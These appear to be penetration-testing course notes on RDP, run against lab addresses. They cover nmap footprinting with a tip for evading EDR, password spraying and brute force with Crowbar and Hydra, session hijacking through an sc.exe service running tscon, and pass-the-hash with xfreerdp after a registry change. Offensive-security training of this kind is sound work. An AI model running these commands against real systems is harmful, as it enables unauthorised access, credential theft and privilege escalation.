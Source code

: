 # Footprinting the Service
```
nmap -Pn -p3389 192.168.2.143
```
```
nmap -sV -sC 10.129.201.248 -p3389 --script rdp*
```
we can use --packet-trace to track the individual packages and inspect their contents manually. We can see that the RDP cookies (mstshash=nmap) used by Nmap to interact with the RDP server can be identified by threat hunters and various security services such as Endpoint Detection and Response (EDR), and can lock us out as penetration testers on hardened networks.
```
nmap -sV -sC 10.129.201.248 -p3389 --packet-trace --disable-arp-ping -n
```
## Initiate an RDP Session
```
xfreerdp /u:cry0l1t3 /p:"P455w0rd!" /v:10.129.201.248
```
## File Transfer Methods
As an alternative to copy and paste, we can mount a local resource on the target RDP server. rdesktop or xfreerdp can be used to expose a local folder in the remote RDP session.
### Mounting a Linux Folder Using rdesktop
```
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files’
```
### Mounting a Linux Folder Using xfreerdp
```
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```
# Attacking RDP
## Misconfigurations
Using the Crowbar tool, we can perform a password spraying attack against the RDP service. As an example below, the password password123 will be tested against a list of usernames in the usernames.txt file. The attack found the valid credentials as administrator : password123 on the target RDP host.
```
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123’
```
## Hydra
### Hydra Brute Force
```
hydra -L user.list -P password.list rdp://10.129.42.197
```
### Hydra - RDP Password Spraying
```
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
## RDP Session Hijacking
Let's imagine we successfully gain access to a machine and have an account with local administrator privileges. If a user is connected via RDP to our compromised machine, we can hijack the user's remote desktop session to escalate our privileges and impersonate the account. In an Active Directory environment, this could result in us taking over a Domain Admin account or furthering our access within the domain.
```
PS C:\ query user
```
To successfully impersonate a user without their password, we need to have SYSTEM privileges and use the Microsoft tscon.exe binary that enables users to connect to another desktop session. It works by specifying which SESSION ID (4 for the lewen session in our example) we would like to connect to which session name (rdp-tcp#13, which is our current session). So, for example, the following command will open a new console as the specified SESSION_ID within our current RDP session:
```
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```
If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as PsExec or Mimikatz. A simple trick is to create a Windows service that, by default, will run as Local System and will execute any binary with SYSTEM privileges. We will use Microsoft sc.exe binary. First, we specify the service name (sessionhijack) and the binpath, which is the command we want to execute. Once we run the following command, a service named sessionhijack will be created.
```
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```
To run the command, we can start the sessionhijack service:
```
C:\htb> net start sessionhijack
```
Note: This method no longer works on Server 2019.
## Pass the Hash (PtH)
### Included in Windows Lateral Movement
```
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```
There are a few caveats to this attack: `Account restrictions are preventing ...`
This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`. It can be done using the following command:
```
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
```
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```
